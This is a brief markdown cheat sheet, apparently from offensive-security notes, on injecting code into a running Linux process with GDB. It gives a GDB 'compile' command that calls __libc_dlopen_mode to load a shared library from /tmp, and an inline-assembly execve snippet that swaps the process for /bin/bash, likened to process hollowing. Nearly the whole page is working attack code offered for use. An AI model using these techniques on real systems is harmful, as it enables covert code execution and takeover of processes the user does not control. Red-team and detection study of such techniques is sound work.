 # Injection With GDB

## Inject Shared Library

It is possible to load a shared library into a process using GDB.

```bash
compile __libc_dlopen_mode("/tmp/libx.so", 2)
```

## Inject Binary

Something like a process hollowing, it can be done openning GDB against a process just like done for injecting a shared library. Type the following code, chenging the path:

```
register char *x asm("%rdi") = "/bin/bash";asm("xor %rsi,%rsi; xor %rdx,%rdx; mov $59,%rax; syscall;");
```
